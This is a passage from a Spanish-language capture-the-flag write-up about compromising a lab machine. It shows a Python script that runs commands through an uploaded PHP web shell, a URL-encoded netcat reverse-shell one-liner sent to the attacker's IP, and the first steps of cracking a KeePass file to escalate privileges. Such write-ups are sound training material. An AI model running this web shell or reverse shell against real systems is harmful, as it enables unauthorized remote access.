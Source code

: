 ```python
	"Accept-Language" : "en-US,en;q=0.5",
	"Accept-Encoding" : "gzip, deflate",
	"Referer" : "http://10.10.67.58/cloud/",
	"Content-Type" : "application/x-www-form-urlencoded",
	"Content-Length" : "38",
	"Origin" : "http://10.10.67.58",
	"DNT" : "1",
	"Connection" : "close",
	"Cookie" : "PHPSESSID=g16nhtaeb21o0kvg07dbqs4r4m",
	"Upgrade-Insecure-Requests" : "1"
}

r = requests.post(main_url,headers=headers,data=data)

r = requests.get (main_url + "images/pwned.php?cmd=" + command)

if r.status_code == 200:
	print(r.text)
else:
	print("Error en la petición, código de estado",r.status_code)
```

- Teniendo el servidor python montado, ejecutamos la script de nuestro exploit pasándole como argumento cualquier comando del sistema y vemos como efectivamente se nos ejecuta:

```bash
$python3 exploitRCE.py id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Ahora lo que resta por hacer es mandarnos una reverse shell a nuestra máquina, pasándole como argumento una reverse shell de forma URL encodeada:

```bash
$python3 exploitRCE.py rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.6.53.49%20443%20%3E%2Ftmp%2Ff
```

- Hemos ganado acceso al sistema como "www-data", hacemos el respectivo tratamiento a la TTY y buscamos escalar privilegios.



# ESCALADA DE PRIVILEGIOS:


# Cracking Keepass archive:

- Si buscamos dentro del servidor, vemos que hay un usuario "sysadmin" en donde parece estar ubicada la primera flag, deberemos pivotar a ese usuario para poder leerla.

- Si revisamos el directorio "/opt" nos encontramos con un archivo `"dataset.kdbx"`, el cual es un archivo de registro del gestor de contraseñas "Keepass", si logramos acceder a la información de este archivo podríamos encontrar la credencial del usuario "sysadmin".
